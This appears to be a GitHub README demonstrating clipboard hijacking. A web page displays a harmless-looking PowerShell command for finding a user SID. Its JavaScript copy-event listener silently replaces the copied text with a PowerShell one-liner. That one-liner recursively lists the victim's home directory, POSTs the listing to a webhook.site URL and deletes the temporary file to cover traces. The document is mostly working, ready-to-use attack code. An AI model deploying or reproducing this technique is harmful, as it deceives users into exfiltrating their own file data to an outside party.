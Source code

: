 # JavaScript-Clipboard-Manipulation
 Art of Deception: Manipulate clipboard when doing copy via JavaScript

## Set id on the part which you want the user to falls to the copy clipboard manipulation
```
<div class="col-sm-5">
    <h2>How to Get User SID in Powershell (COPY ME Value!)</h2>
    <p id='copy'>Get-ItemProperty -path "HKLM:\SOFTWARE\Microsoft\WindowsNT\CurrentVersion\ProfileList\*" | select ProfileImagePath,PSChildName</p>
</div>
```

## Create a Javascript to set a listener on the id & manipulate the clipboard <br>
<b>Note: The Powershell Command will first get the directory lists, then make a POST request to webhook & remove the leftover trace</b>
```
<!-- Copy clipboard Manipulation-->
<script type="text/javascript">
    document.getElementById('copy').addEventListener('copy', function(e) {
        e.clipboardData.setData('text/plain', 'Get-ChildItem -recurse $HOME > tmp; Invoke-WebRequest -Method POST -InFile .\\tmp https://webhook.site/4ab2a160-8f9d-42f8-81e3-6f94f7f62357; rm .\\tmp')
        e.preventDefault()
    })
</script>
```

## Image on how it looks like on the website & the value copied in clipboard 

![alt text](poc/1.png)
![alt text](poc/2.png)


## Template Used: 
https://www.free-css.com/free-css-templates/page274/agency-perfect